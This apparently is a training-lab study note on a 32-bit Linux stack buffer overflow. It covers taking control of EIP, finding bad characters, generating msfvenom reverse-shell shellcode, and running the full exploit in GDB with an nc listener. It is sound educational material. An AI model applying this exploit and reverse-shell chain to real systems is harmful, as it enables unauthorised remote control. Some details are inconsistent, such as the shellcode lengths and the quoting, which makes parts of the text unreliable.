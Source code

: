 # Exploits

## Take Control of EIP

> One of the most important aspects of a stack-based buffer overflow is to **get the instruction pointer** (EIP) **under control**, so we can tell it to which address it should jump. **This will make the EIP point to the address where our shellcode starts and causes the CPU to execute it**.

### Determine the Offset

> The offset is used to **determine how many bytes are needed** to overwrite the buffer and how much space we have around our shellcode.

#### Create pattern

> Shellcode is a program code that contains instructions for an operation that we want the CPU to perform. The manual creation of the shellcode will be discussed in more detail in other modules. But to save some time first, we use the Metasploit Framework (MSF) that offers a Ruby script called “pattern\_create” that can help us determine the exact number of bytes to reach the EIP. It creates a unique string based on the length of bytes you specify to help determine the offset.

```bash
❯ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200 > pattern.txt
cat pattern.txt
Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9

# GDB using the generated payload
(gdb) run $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'") 
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print 'Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9'")
Program received signal SIGSEGV, Segmentation fault.
0x69423569 in ?? ()

# GDB - EIP
(gdb) info registers eip
eip            0x69423569	0x69423569

# CALCULATING THE OFFSET
# We see that the EIP displays a different memory address, and we can use another MSF tool called "pattern_offset" to calculate the exact number of characters (offset) needed to advance to the EIP.
❯ /usr/bin/ruby /opt/metasploit-framework/embedded/framework/tools/exploit/pattern_offset.rb -q 0x69423569
[*] Exact match at offset 1036
```

<figure><img src="../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

**If we now use precisely this number of bytes for our "U"s, we should land exactly on the EIP. To overwrite it and check if we have reached it as planned, we can add 4 more bytes with "\x66" and execute it to ensure we control the EIP.**

```bash
(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

<figure><img src="../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

**The EIP has been overwritten with our \x66 characters.**

> Next, we have to find out how much space we have for our shellcode, which then executes the commands we intend. As we control the EIP now, we will later overwrite it with the address pointing to our shellcode's beginning.

**Examine the register and find the address of EBP**

```bash
(gdb) info registers ebp
ebp            0x55555555          0x55555555
```

## Determine the Length for Shellcode

> We have to find out approximately how big our shellcode will be that we will insert, and for this, we will use **msfvenom**.

### Shellcode length

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c
```

* We need a total of **1040** bytes to get to the EIP.
* Here, we can use an additional **100** bytes of NOPs
* **150** bytes for our shellcode.

```
Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
NOPs = "\x90" * 100
Shellcode = "\x44" * 150
EIP = "\x66" * 4
```

**Buffer**&#x20;

<figure><img src="../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

Now we can try to find out how much space we have available to insert our shellcode.

```bash
 (gdb) run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
```

<figure><img src="../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>

## Identification of Bad Characters

```
\x00 - Null Byte
\x0A - Line Feed
\x0D - Carriage Return
\xFF - Form Feed
```

**Here we use the following character list to find out all characters we have to consider and to avoid when generating our shellcode.**

```bash
# characters list

CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

# string length
echo $CHARS | sed 's/\\x/ /g' | wc -w
256
```

**We need to calculate our buffer again.**

```
Buffer = "\x55" * (1040 - 256 - 4) = 780
CHARS = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
EIP = "\x66" * 4
```

**Look at the whole main function to set a breakpoint at the corresponding function so that the execution stops at this point and we can analyze the memory's content :**

```bash
(gdb) disas main

# setting the breakpoint at the function
(gdb) break bowfunc

# send chars
(gdb) run $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

# look at the stack
(gdb) x/2000xb $esp+500

# identify all bad characters - look where the chars start
# adjust the number of chars from the one who are bad
# Substract the number of removed characters

# Buffer = "\x55" * (1040 - 255 - 4) = 781
# "\x00" removed: 256 - 1 = 255 bytes
# CHARS = "\x01\x02\x03...<SNIP>...\xfd\xfe\xff"
# EIP = "\x66" * 4

# send without the null byte
(gdb) run $(python -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

# the stack
x/2000xb $esp+550

# check for other bad chars ... etc
```

## Generate shellcode

### msfvenom

```bash
# syntahx
msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>

# real command
msfvenom -p linux/x86/shell_reverse_tcp lhost=127.0.0.1 lport=31337 --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20" --out shellcode

# content of shellcode
❯ cat shellcode
unsigned char buf[] = 
"\xbe\x6e\x05\xb5\x18\xdd\xc1\xd9\x74\x24\xf4\x5a\x31\xc9"
"\xb1\x12\x31\x72\x12\x03\x72\x12\x83\x84\xf9\x57\xed\x69"
"\xd9\x6f\xed\xda\x9e\xdc\x98\xde\xa9\x02\xec\xb8\x64\x44"
"\x9e\x1d\xc7\x7a\x6c\x1d\x6e\xfc\x97\x75\x0e\xfe\x67\x84"
"\x98\xfc\x67\xfc\x31\x88\x89\xb0\xa4\xda\x18\xe3\x9b\xd8"
"\x13\xe2\x11\x5e\x71\x8c\xc7\x70\x05\x24\x70\xa0\xc6\xd6"
"\xe9\x37\xfb\x44\xb9\xce\x1d\xd8\x36\x1c\x5d";

# Now that we have our shellcode, we adjust it to have only one string, and then we can adapt and submit our simple exploit again.

# Buffer = "\x55" * (1040 - 124 - 95 - 4) = 817
# NOPs = "\x90" * 124
# Shellcode = "\xda\xca\xba\xe4\x11...<SNIP>...\x5a\x22\xa2"
# EIP = "\x66" * 4'

# EXPLOIT
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + ""\xbe\x6e\x05\xb5\x18\xdd\xc1\xd9\x74\x24\xf4\x5a\x31\xc9\xb1\x12\x31\x72\x12\x03\x72\x12\x83\x84\xf9\x57\xed\x69\xd9\x6f\xed\xda\x9e\xdc\x98\xde\xa9\x02\xec\xb8\x64\x44\x9e\x1d\xc7\x7a\x6c\x1d\x6e\xfc\x97\x75\x0e\xfe\x67\x84\x98\xfc\x67\xfc\x31\x88\x89\xb0\xa4\xda\x18\xe3\x9b\xd8\x13\xe2\x11\x5e\x71\x8c\xc7\x70\x05\x24\x70\xa0\xc6\xd6\xe9\x37\xfb\x44\xb9\xce\x1d\xd8\x36\x1c\x5d"" + "\x66" * 4')

# reverse shell 
nc -lvnp 31337
```
